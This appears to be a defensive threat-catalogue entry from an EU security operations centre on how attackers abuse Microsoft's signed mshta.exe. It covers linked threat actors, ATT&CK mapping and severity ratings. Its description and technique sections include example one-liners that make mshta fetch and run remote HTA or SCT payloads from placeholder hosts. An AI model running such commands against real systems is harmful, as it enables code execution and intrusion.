

# Abuse of mshta

## Metadata

- **UUID**: `767f10bd-1947-44e3-b999-5fbf50d99027`
- **Schema**: `threat::1.0`
- **Version**: `1`
- **Created**: `2025-01-09`
- **Modified**: `2025-01-09`
- **TLP**: clear (`TLP:CLEAR`)
- **Organisation**: EC DIGIT CSOC (`56b0a0f0-b0bc-47d9-bb46-02f80ae2065a`)

## References
### Public
- **1**: [https://lolbas-project.github.io/lolbas/Binaries/Mshta/](https://lolbas-project.github.io/lolbas/Binaries/Mshta/)
- **2**: [https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4](https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4)
- **3**: [https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct](https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct)
- **4**: [https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/](https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/)
- **5**: [https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/](https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/)

## Description
Mshta.exe is a legitimate Microsoft binary used for executing 
Microsoft HTML Application (HTA) files. Because mshta.exe is digitally signed 
by Microsoft, malicious actors often abuse it as a "Living off the Land" binary 
(LOLBin) to evade detection. Attackers can craft malicious HTA or VBScript code 
and pass it to mshta.exe, effectively bypassing many traditional endpoint 
security controls.  

Threat actors have leveraged mshta.exe to stealthily download and execute 
malicious payloads. By embedding or obfuscating their scripts within HTML 
or JavaScript code, adversaries can launch mshta.exe to pull additional 
malware from remote servers.  

Mshta.exe can also be invoked using command-line arguments that specify 
a remote or local HTA file. An example of such an abuse might look like:  

```bash
mshta.exe https://malicious[.]domain/payload.hta
```

or

```bash
mshta.exe C:\Path\To\MaliciousScript.hta
```

Once executed, mshta.exe runs with the same privileges as the invoking user 
(or higher, if misconfigurations or stolen credentials allow for elevated privileges).

## Criticality
**High** - A High priority incident is likely to result in a demonstrable impact to public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence.

## Terrain
> **Adversary must have at least user-level code execution privileges on a Windows host 
where Mshta is available to run.

Domains: Enterprise
Targets: Workstations, Public-Facing Servers, Laptop
Platforms: Windows, Active Directory**

## Threat Assessment
| Dimension | Assessment | Description |
| --- | --- | --- |
| Severity | Significant incident | A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services. |
| Impact | Data Breach; Reputational Damages; Business disruption | - |
| Leverage | Spoofing; Elevation of privilege; Software installation | - |
| Viability | Likely | Probable (probably) - 55-80% |
| Kill Chain | Execution | Techniques that result in execution of attacker-controlled code on a local or remote system. |

## Actors
| Actor | ID | Source | Description |
| --- | --- | --- | --- |
| [[Enterprise] APT29](https://attack.mitre.org/groups/G0016) | `att&ck::G0016` | ('att&ck',) | [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR).(Citation: White House Imposing Costs RU Gov April 2021)(Citation: UK Gov Malign RIS Activity April 2021) They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.(Citation: F-Secure The Dukes)(Citation: GRIZZLY STEPPE JAR)(Citation: Crowdstrike DNC June 2016)(Citation: UK Gov UK Exposes Russia SolarWinds April 2021)  In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes.(Citation: NSA Joint Advisory SVR SolarWinds April 2021)(Citation: UK NSCS Russia SolarWinds April 2021) Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.(Citation: FireEye SUNBURST Backdoor December 2020)(Citation: MSTIC NOBELIUM Mar 2021)(Citation: CrowdStrike SUNSPOT Implant January 2021)(Citation: Volexity SolarWinds)(Citation: Cybersecurity Advisory SVR TTP May 2021)(Citation: Unit 42 SolarStorm December 2020) |
| UNC2452 | `misp::2ee5ed7a-c4d0-40be-a837-20817474a15b` | ('misp',) | Reporting regarding activity related to the SolarWinds supply chain injection has grown quickly since initial disclosure on 13 December 2020. A significant amount of press reporting has focused on the identification of the actor(s) involved, victim organizations, possible campaign timeline, and potential impact. The US Government and cyber community have also provided detailed information on how the campaign was likely conducted and some of the malware used.  MITRE’s ATT&CK team — with the assistance of contributors — has been mapping techniques used by the actor group, referred to as UNC2452/Dark Halo by FireEye and Volexity respectively, as well as SUNBURST and TEARDROP malware. |
| [[Enterprise] Wizard Spider](https://attack.mitre.org/groups/G0102) | `att&ck::G0102` | ('att&ck',) | [Wizard Spider](https://attack.mitre.org/groups/G0102) is a Russia-based financially motivated threat group originally known for the creation and deployment of [TrickBot](https://attack.mitre.org/software/S0266) since at least 2016. [Wizard Spider](https://attack.mitre.org/groups/G0102) possesses a diverse arsenal of tools and has conducted ransomware campaigns against a variety of organizations, ranging from major corporations to hospitals.(Citation: CrowdStrike Ryuk January 2019)(Citation: DHS/CISA Ransomware Targeting Healthcare October 2020)(Citation: CrowdStrike Wizard Spider October 2020) |
| UNC1878 | `misp::3c2bb7d7-a085-4594-adc7-4a20cf724abb` | ('misp',) | UNC1878 is a financially motivated threat actor that monetizes network access via the deployment of RYUK ransomware. Earlier this year, Mandiant published a blog on a fast-moving adversary deploying RYUK ransomware, UNC1878. Shortly after its release, there was a significant decrease in observed UNC1878 intrusions and RYUK activity overall almost completely vanishing over the summer. But beginning in early fall, Mandiant has seen a resurgence of RYUK along with TTP overlaps indicating that UNC1878 has returned from the grave and resumed their operations. |

## ATT&CK Techniques
| Technique | Name | Description |
| --- | --- | --- |
| `T1218.005` | [System Binary Proxy Execution: Mshta](https://attack.mitre.org/techniques/T1218/005) | Adversaries may abuse mshta.exe to proxy execution of malicious .hta files and Javascript or VBScript through a trusted Windows utility. There are several examples of different types of threats leveraging mshta.exe during initial compromise and for execution of code (Citation: Cylance Dust Storm) (Citation: Red Canary HTA Abuse Part Deux) (Citation: FireEye Attacks Leveraging HTA) (Citation: Airbus Security Kovter Analysis) (Citation: FireEye FIN7 April 2017)   Mshta.exe is a utility that executes Microsoft HTML Applications (HTA) files. (Citation: Wikipedia HTML Application) HTAs are standalone applications that execute using the same models and technologies of Internet Explorer, but outside of the browser. (Citation: MSDN HTML Applications)  Files may be executed by mshta.exe through an inline script: <code>mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))</code>  They may also be executed directly from URLs: <code>mshta http[:]//webserver/payload[.]hta</code>  Mshta.exe can be used to bypass application control solutions that do not account for its potential use. Since mshta.exe executes outside of the Internet Explorer's security context, it also bypasses browser security settings. (Citation: LOLBAS Mshta) |

## Chaining

### Chaining details
#### implements -> Abuse of Windows Utilities (`atomicity::implements`)
This TVM is implementing the bigger TVM : Abuse of Windows Utilities

- **Target UUID**: `d5039f2c-9fcc-4ba3-ad6a-da8c891ba745`
